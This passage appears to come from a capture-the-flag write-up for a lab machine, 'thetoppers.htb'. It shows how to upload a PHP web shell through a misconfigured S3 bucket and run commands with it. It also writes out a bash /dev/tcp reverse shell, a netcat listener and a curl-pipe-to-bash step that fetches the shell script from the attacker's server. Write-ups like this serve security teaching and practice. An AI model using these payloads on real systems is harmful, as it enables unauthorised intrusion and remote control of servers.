 Based on the above, it seems that `thetoppers.htb` is using the files in this S3 bucket for the site. If so, we might be able to upload a php shell to the bucket and have it execute on the server.

```bash
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
$ aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
$ curl http://thetoppers.htb/shell.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Success! Next, let's try to obtain a reverse shell. First, we'll write up a simple reverse shell bash script:

```bash
#!/bin/bash
bash -i >& /dev/tcp/<HOST_IP>/1337 0>&1
```

Some notes:
* `-i` makes bash interactive
* `>&` redirects stdout and stderr to the proceeding location
* `/dev/tcp/<ip>/<port>` is a special file to allow raw TCP connections
* `0>&1` redirects stdin to come from same location as stdout

The goal is for the target machine to execute this script. There are 2 more items required to perform the exploit: (1) set up a listener on our device, and (2) execute the script on the target. Regarding the first item, to receive the connection we must set up a listener on our device to receive the connection:

```bash
$ nc -nvlp 1337
```

Options:
* `-n` - Numeric only IP addresses, no DNS
* `-v` - Verbose
* `-l` - Listen for inbound connections
* `-p` - Specify the port

Now to execute the reverse shell script on the client, one way it can be done is to set up a local http server to serve the script. From the target, we can curl the file and pipe it into bash:

```bash
$ cd path/to/reverse/shell.sh
$ python3 -m http.server 8000 &
$ curl "http://thetoppers.htb/shell.php?cmd=curl <ip>:8000/shell.sh|bash
```

The request may hang, but you should see a connection made in netcat

```bash
$ nc -nvlp 1337
listening on [any] 1337 ...
$TARGET_IP - - [02/Dec/2024 19:28:15] "GET /shell.sh HTTP/1.1" 200 -
connect to [$HOST_IP] from (UNKNOWN) [$TARGET_IP] 36496
bash: cannot set terminal process group (1492): Inappropriate ioctl for device
bash: no job control in this shell
www-data@three:/var/www/html$ whoami
whoami
www-data
www-data@three:/var/www/html$ ls
ls
images
index.php
shell.php
www-data@three:/var/www/html$ cd ..
cd ..
www-data@three:/var/www$ ls
ls
flag.txt
```